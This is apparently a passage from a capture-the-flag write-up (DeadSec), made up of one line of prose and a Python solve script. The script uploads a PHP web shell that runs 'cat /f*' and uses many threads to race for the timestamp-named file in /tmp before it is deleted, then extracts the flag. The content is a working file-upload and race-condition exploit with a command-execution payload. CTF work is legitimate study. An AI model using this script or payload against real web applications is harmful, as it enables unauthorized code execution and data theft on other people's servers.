I created the following script which will do all the work

```python
#!/usr/bin/python3
import requests
import threading
import datetime
import os
import re


# url = f"http://127.0.0.1/"
url = "https://da93b7e95bdffb4bb4d946e2.deadsec.quest/"
max_threads = 50  # Set the maximum number of threads

def access_payload(timestamp):
    file_name = f"shell_{int(timestamp)}.php"
    response = requests.get(url + "tmp/" + file_name)
    res = response.text
    if "The requested URL was not found on this server" in res:
        return False
    flag = re.findall(r"DEAD{.*}", res)
    if flag:
        print(flag[0])
        print("Killing Task...")
        os.kill(os.getpid(), 9)
        return flag

    return flag


def upload_payload():
    file_content = """
    <?php
    system("cat /f*");
    ?>
    """
    files = {"files": ("shell.php", file_content, "application/octet-stream")}
    response = requests.post(url + "upload.php", files=files)
    return response


if __name__ == "__main__":
    print("Using Max Threads of ", max_threads)
    for i in range(65535):
        current_timestamp = int(datetime.datetime.now().timestamp())
        t = threading.Thread(target=access_payload, args=(current_timestamp,))
        t2 = threading.Thread(target=upload_payload)

        t.start()
        t2.start()
        if threading.active_count() > max_threads:
            t.join()
            t2.join()
            print("Max Threads Reached")
            
```
